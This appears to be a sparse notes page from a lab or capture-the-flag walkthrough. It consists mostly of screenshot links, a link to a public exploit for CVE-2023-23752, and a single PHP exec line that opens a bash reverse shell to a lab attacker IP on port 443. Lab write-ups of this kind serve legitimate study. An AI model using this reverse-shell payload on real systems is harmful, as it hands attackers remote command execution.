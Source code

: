 ![](../../Images/Pasted%20image%2020240417120537.png)![](../../Images/Pasted%20image%2020240417120746.png)
![](../../Images/Pasted%20image%2020240417120805.png)
![](../../Images/Pasted%20image%2020240417120959.png)
![](../../Images/Pasted%20image%2020240417121058.png)
![](../../Images/Pasted%20image%2020240417124006.png)

![](../../Images/Pasted%20image%2020240417125157.png)
![](../../Images/Pasted%20image%2020240417124230.png)
![](../../Images/Pasted%20image%2020240417124521.png)
![](../../Images/Pasted%20image%2020240417124758.png)
https://github.com/Acceis/exploit-CVE-2023-23752
![](../../Images/Pasted%20image%2020240417125436.png)
![](../../Images/Pasted%20image%2020240417125601.png)
![](../../Images/Pasted%20image%2020240417125659.png)
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'");
![](../../Images/Pasted%20image%2020240417130732.png)
